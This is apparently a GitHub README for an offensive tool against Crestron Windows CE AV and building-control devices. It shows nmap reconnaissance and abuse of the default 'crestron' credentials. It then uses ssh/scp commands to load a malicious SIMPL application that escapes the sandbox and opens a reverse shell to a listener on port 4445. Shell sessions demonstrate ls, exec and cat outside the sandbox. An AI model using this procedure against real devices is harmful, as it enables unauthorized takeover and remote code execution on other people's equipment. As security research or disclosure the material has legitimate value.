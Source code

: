 # crestron
Tools for taking over Crestron Windows CE devices without the need for Crestron Toolbox.

If you have authenticated access, or the default `crestron:<blank>` credentials are still enabled, you can use the provided Simpl application to load a malicious application that breaks out of the sandbox to connect back to you.

The ports available to the interface can change depending on the device type, and whether you are looking at the control side or the LAN side. If the device has only the LAN interface connected, it will listen with all ports on that interface. Otherwise, the control ports will be listening on the control interface. The key ports are 21, 22, 23, 843, 41794, or 41795.

```
Brandons-iMac:~ bperry$ nmap 192.168.1.174
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-01 13:46 CDT
Nmap scan report for DMPS3-7f81812f.attlocal.net (192.168.1.174)
Host is up (0.0036s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
443/tcp  open  https
843/tcp  open  unknown
6510/tcp open  mcer-port
```

This assumes you are starting from a clean slate. If you would like to factory reset the device to ensure nothing weird happens, SSH into the device and run `RESTORE`.
```
mkdir tmp
cd tmp
unzip ../pro3.lpz
ssh crestron@192.168.1.240 del \\User\\*
scp * crestron@192.168.1.240:\\User
ssh crestron@192.168.1.240 copy \\User\\boot.bt \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa_archive.zip \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.bin \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.cdm \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.rte \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpCustomAttributesInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpData.dat \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpHelperInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusLibrary.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusManagerApp.exe \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusObjects.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 progregister -P:all
ssh crestron@192.168.1.240 progreset

```

# Other Devices

If you can telnet into the device, the command prompt will contain the RackType that you can update boot.bt with.

```
bperry@bperry-Precision-T5610:/tmp/zip$ telnet 192.168.1.174
Trying 192.168.1.174...
Connected to 192.168.1.174.
Escape character is '^]'.
DMPS3-4K-150-C Console
Warning: Another console session is open 

DMPS3-4K-150-C>

```

In boot.bt, the RackType is in the first stanza and by default is the PRO3.

```
[LG_BOOT_DATA]
BinFileName=fdsa.bin
SMWFileName=fdsa.smw
NumberSymbols=15
NumberSignals=33
RouteFileName=fdsa.rte
CUZ=1.007.0017
RackType=PRO3
SymParamVersion=21.007.0017
NumberParameters=3
NumRealIntegralParams=0
NumRealStringParams=3
NVRAMUsed=0

[...snip...]
```

Replacing PRO3 with the device type will ensure the device does not reject the application.

# Using the shell

The shell expects a \User\ip file with the IP address to connect back to. Port 4445 is hardcoded.

```
echo -n 192.168.1.123 > ip
scp ip crestron@192.168.1.174:/User
```

Once the connection is made, you can begin insteracting outside of the sandbox.

```
Brandons-iMac:~ bperry$ nc -l 4445
Connected
 > ls
\Network
\Windows
\Temp
\Program Files
\My Documents
\HTML
\Sys
\Simpl
\Nvram
\FTP
\User
\ROMDISK
\Application Data
\My Recent Documents
\Recycled
\SSHBanner
 >  
 ```
 
 For instance, compared to the sandbox directory list.
 
 ```
 Brandons-iMac:~ bperry$ telnet 192.168.1.174
Trying 192.168.1.174...
Connected to dmps3-7f81812f.attlocal.net.
Escape character is '^]'.
DMPS3-4K-150-C Console
Warning: Another console session is open 

DMPS3-4K-150-C>dir
Directory of \
       [DIR]  09-21-15 08:58:24 FTP
       [DIR]  09-21-15 08:58:24 HTML
       [DIR]  09-21-15 08:58:24 Nvram
       [DIR]  09-21-15 08:58:26 ROMDISK
       [DIR]  09-21-15 08:58:24 Simpl
       [DIR]  09-21-15 09:05:26 SSHBanner
       [DIR]  09-21-15 08:58:24 Sys
       [DIR]  09-21-15 08:58:26 User

DMPS3-4K-150-C>
```

Available commands are `ls`, `pwd`, `exec`, `cat`, `cd`, and `base64`.

On PRO3, for instance, you can run a graphics test executable for demonstration of the issue.

```
 > exec \Windows\cube.exe
```

A spinning cube will replace the Crestron menu on the display.
